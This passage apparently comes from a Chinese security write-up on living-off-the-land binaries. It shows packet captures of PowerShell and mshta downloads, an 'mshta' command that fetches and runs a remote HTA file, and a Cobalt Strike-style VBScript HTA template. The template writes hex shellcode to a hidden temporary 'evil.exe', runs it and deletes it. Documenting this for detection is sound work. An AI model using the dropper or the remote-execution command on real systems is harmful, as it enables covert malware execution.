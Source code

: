 [***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/powershell_wget.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; zh-CN) WindowsPowerShell/5.1.17763.316
Host: 192.168.220.125
Connection: Keep-Alive
```

### 13. mshta

lolbas没有记录, 之前漏掉了

```powershell
mshta http://xxxxx.xxx.hta
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/mshta.pcap)

```http
GET /01/evil.hta HTTP/1.1
Accept: */*
Accept-Language: zh-CN
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
Host: 192.168.220.170
Connection: Keep-Alive
```

hta 文件格式(cs生成):

```html
<script language="VBScript">
	Function var_func()
		var_shellcode = "shellcode"

		Dim var_obj
		Set var_obj = CreateObject("Scripting.FileSystemObject")
		Dim var_stream
		Dim var_tempdir
		Dim var_tempexe
		Dim var_basedir
		Set var_tempdir = var_obj.GetSpecialFolder(2)
		var_basedir = var_tempdir & "\" & var_obj.GetTempName()
		var_obj.CreateFolder(var_basedir)
		var_tempexe = var_basedir & "\" & "evil.exe"
		Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
		For i = 1 to Len(var_shellcode) Step 2
		    var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
		Next
		var_stream.Close
		Dim var_shell
		Set var_shell = CreateObject("Wscript.Shell")
		var_shell.run var_tempexe, 0, true
		var_obj.DeleteFile(var_tempexe)
		var_obj.DeleteFolder(var_basedir)
	End Function

	var_func
	self.close
</script>
```
